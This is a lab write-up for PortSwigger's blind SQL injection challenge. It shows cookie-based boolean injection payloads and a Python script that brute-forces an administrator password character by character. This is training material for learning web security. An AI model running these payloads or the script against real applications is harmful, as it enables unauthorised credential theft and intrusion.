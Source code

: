 # SQL Injection

## **SQL injection examples**

- Retrieving hidden data - where you can modify an SQL query to return additional results.
- Subverting application logic - where you can change a query to interfere with the application's logic.
- UNION attacks - where you can retrieve data from different database tables.
- Examining the databases - where you can extract information about the version and structure of the database.
- Blind SQL injection - where the results of a query you control are not returned in the application's responses.

# [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

## Description

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.
> 
> 
> The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.
> 
> The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
> 
> To solve the lab, log in as the administrator user.
> 

With ************************************************************Blind SQL Injection************************************************************ HTTP response will no return the result of SQL query or the error message of database. General principles of ************Blind SQL Injection************ that you have to try checking the response to recognize the differences from which to make appropriate adjustments in the query. 

### First, ability test of Blind SQL Injection through response returned by different boolean conditions

In description, “The application uses a tracking cookie” 

![                                                                          TrackingId](SQL%20Injection%200b18092f279b4d6fbee373028f61d777/Untitled.png)

                                                                      TrackingId

You can try to modify the request, specifically the **TrackingId** place, by adding a condition check with AND. 

```java
TrackingId=2S5FNfQOVevaZGsW' AND '1'='1
```

![                                                                           Check condition True](SQL%20Injection%200b18092f279b4d6fbee373028f61d777/Untitled%201.png)

                                                                           Check condition True

As observed above, you can see the message ***“Welcome back”*** in the returned response. Moving on, I try changing the boolean condition to '1'='2 as follows:

```java
TrackingId=2S5FNfQOVevaZGsW' AND '1'='2
```

![                                                                               Check condition False](SQL%20Injection%200b18092f279b4d6fbee373028f61d777/Untitled%202.png)

                                                                               Check condition False

Now if in the response section can not find the message **“Welcome back”**. The above results show that it is possible to test based on boolean condition and analyze based on the response returned (Specifically in this case is the presence of the message **“Welcome back”**)

## Confirm the existence of the table containing user information and user “administrator”

Modify the request to check if there is a users table in the database like this:

```java
TrackingId=2S5FNfQOVevaZGsW' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

![                                                                       Check user administrator
](SQL%20Injection%200b18092f279b4d6fbee373028f61d777/Untitled%203.png)

                                                                       Check user administrator

Can conclude an important information is that there exists a username **administrator** in the **users table**

### Password detection attack with Blind SQL injection

Once I have determined the username administrator, next I will need to define the password.

You can write a script to brute force each character of the password.

```python
import requests
import string

burp0_url = "your_url"
burp0_cookies = {"TrackingId": "2S5FNfQOVevaZGsW' AND (SELECT 'a' FROM users WHERE username='administrator')='a", "session": "lDZWxZ3bJDDyEPMZUZWYJwdr1iAZogvX"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-CA,en-US;q=0.7,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "none", "Sec-Fetch-User": "?1", "Te": "trailers", "Connection": "close"}

password = ""
base  = burp0_cookies["TrackingId"]
baseQuery = base + "' AND (SELECT SUBSTRING(password, {}, 1) FROM users WHERE username = 'administrator')='{}"
print(baseQuery)

while True:
    for char in range (33, 127):
        f=True
        char= chr(char)
        realQuery =baseQuery.format(len(password)+1, char)
        cookie = burp0_cookies
        cookie["TrackingId"] = realQuery
        print(cookie["TrackingId"])
        res = requests.get(burp0_url, headers=burp0_headers, cookies=cookie)
        if "Welcome back!" in res.text:
            password += char
            break
        print(password)
```

![                                                                                 Result
](SQL%20Injection%200b18092f279b4d6fbee373028f61d777/Untitled%204.png)

                                                                             Result

Password: ***9qpwdofs238tomgfc29e***

![                                                                Login account administrator](SQL%20Injection%200b18092f279b4d6fbee373028f61d777/Untitled%205.png)

                                                                    Login account administrator

# References

[https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
